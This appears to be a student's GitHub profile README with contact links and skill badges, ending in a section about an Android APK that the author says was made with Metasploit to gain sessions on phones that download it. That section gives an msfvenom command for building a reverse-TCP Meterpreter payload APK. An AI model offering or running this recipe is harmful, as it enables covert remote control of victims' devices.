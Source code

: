 <h1 align="center">Hi 👋, I'm Sai Nikhil Reddy Mondeddu</h1>
<h3 align="center">A passionate software engineer from India</h3>

<img align="right" alt="Coidng" width="400" src="https://camo.githubusercontent.com/19db51af5f90f1b152bc0b9078f5fe97053955be5074f03f17019c70345bdcdb/68747470733a2f2f6d69726f2e6d656469756d2e636f6d2f6d61782f313336302f302a37513379765349765f7430696f4a2d5a2e676966">


<p align="left"> <img src="https://komarev.com/ghpvc/?username=iamnikki&label=Profile%20views&color=0e75b6&style=flat" alt="iamnikki" /> </p>

- 🌱 I’m currently learning **cyber security skills, different AI courses etc...**

- 👨‍💻 All of my projects are available at [https://github.com/sainikhilreddymondeddu](https://github.com/sainikhilreddymondeddu)

- 📫 How to reach me **mondeddusainikhilreddy05@gmail.com**

- ⚡ Fun fact **I think I am funny..**

<h3 align="left">Connect with me:</h3>
<p align="left">
<a href="https://linkedin.com/in/sai nikhil reddy mondeddu" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/linked-in-alt.svg" alt="sai nikhil reddy mondeddu" height="30" width="40" /></a>
<a href="https://kaggle.com/sai nikhil reddy mondeddu" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/kaggle.svg" alt="sai nikhil reddy mondeddu" height="30" width="40" /></a>
<a href="https://fb.com/sai nikhil reddy mondeddu" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="sai nikhil reddy mondeddu" height="30" width="40" /></a>
<a href="https://instagram.com/m__s__n___reddy" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/instagram.svg" alt="m__s__n___reddy" height="30" width="40" /></a>
<a href="https://www.youtube.com/c/padmavathiagriculturemachineries" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/youtube.svg" alt="padmavathiagriculturemachineries" height="30" width="40" /></a>
<a href="https://www.hackerrank.com/nikki07" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/hackerrank.svg" alt="nikki07" height="30" width="40" /></a>
</p>

<h3 align="left">Languages and Tools:</h3>
<p align="left"> <a href="https://www.cprogramming.com/" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/c/c-original.svg" alt="c" width="40" height="40"/> </a> <a href="https://www.w3schools.com/cpp/" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/cplusplus/cplusplus-original.svg" alt="cplusplus" width="40" height="40"/> </a> <a href="https://www.linux.org/" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/linux/linux-original.svg" alt="linux" width="40" height="40"/> </a> <a href="https://www.python.org" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" alt="python" width="40" height="40"/> </a> </p>



<p><img align="left" src="https://github-readme-stats.vercel.app/api/top-langs?username=iamnikki&show_icons=true&locale=en&layout=compact" alt="iamnikki" /></p>

<p>&nbsp;<img align="center" src="https://github-readme-stats.vercel.app/api?username=iamnikki&show_icons=true&locale=en" alt="iamnikki" /></p>

<p><img align="center" src="https://github-readme-streak-stats.herokuapp.com/?user=iamnikki&" alt="iamnikki" /></p>


<h4><b>THIS IS README CONTENT FOR THE ANDROID APK.</b></h4>
<p>This is an apk which is created in METASPLOIT. It will help us to gain session from any android.
Which is downloaded this apk. This was created for my self.
If you are downloaded this you wont get access from the target because we should run some commands in metasploit to gain access.
We should mention the LHOST and LPORT also which are seperate for every computer and network that's why this is only works for me.

To create your own apk like this:-
  1. Open metasploit framework.In linux based systems. 
  2. Then run this command:- msfvenom android/meterpreter/reverse_tcp LHOST=(your computer ip addrs) LPORT=(any 4 numbers which you should remember) R>filename.apk

THANKS FOR VISITING MY SITE......
    BYE.......</p>
